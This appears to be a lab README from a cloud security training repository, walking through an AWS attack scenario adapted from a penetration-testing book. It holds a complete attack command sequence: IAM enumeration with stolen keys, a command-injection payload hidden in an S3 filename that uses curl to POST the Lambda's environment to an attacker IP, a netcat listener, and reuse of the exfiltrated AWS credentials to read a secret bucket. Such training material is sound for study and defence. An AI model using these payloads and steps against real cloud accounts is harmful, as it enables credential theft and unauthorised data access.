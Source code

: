 # vulnerable_lambda

## Scenario
**Note** This scenario requires your machine to be reachable from its public IP address.
In the video, a cloud kali instance is used which was deployed in the same environment/region/zone as the vulnerable functoin, hence the private ip can be used. Also ensure the Netcat listening port is not blocked by security group!


Starting out with access keys for user 'Bob' (inside attacker or stolen creds), 
explore the permissions of the key.
Discover that Bob is able to `s3:Get*, s3:Put*, lambda:listFunctions, lambda:getFunction`.

List all buckets (allowed).
Try to list the contents of the `MySecretBucket-[id]` (not allowed).

List the lambda functions and discover a vulnerable function (`s3-zip-counter-[id]`).
Fetch the lambda's code and run a static code scan (using `bandit`).
Discover a code injection vulnerability.
Exploit this to POST the lambda's `env` to your machine (netcat) or a server you control.
In the posted env, discover AWS access keys and install them in your local CLI.
Then use the newly created profile to list the contents of the `MySecretBucket-[id]`.

## Commands

```
pip3 install bandit

aws configure --profile bob

aws s3 ls --profile bob
aws s3 ls MySecretBucket-[id] --profile bob

aws lambda list-functions --profile bob
aws lambda get-function --function-name [function name] --profile bob

wget "<function URL>"
unzip s3...
```
Unzip the downloaded file.

```
pip3 install bandit
bandit -r [location of lambda_function.py]
```

Create payload file:
```
ip a

touch 'hello;curl -X POST -d "`env`" [your public reachable IP];.zip'
touch 'hello;curl -X POST -d "`env`" 172.31.29.23;.zip'

aws s3 ls s3://fc-lambda-bucket-284ab91da09dale/ --profile bob
aws s3 ls s3://fc-lambda-bucket-284ab91da09dale/Uploads/ --profile bob

```

Open Netcat listener and then upload the created file to the bucket:
```
nc -nlvp 4444

aws s3 cp [payload] s3://fc-lambda-bucket-284ab91da09dale/Uploads/ --profile bob
```
Get the env from Lambda and copy the AWS creds in a new profile (eve).
Then
```
aws s3 ls --profile eve
aws s3 ls s3://mysecretbucket-[id] --profile eve
```

## Creds
This example was taken from the book "Hands-on AWS penetration testing with Kali Linux", Chapter 12.
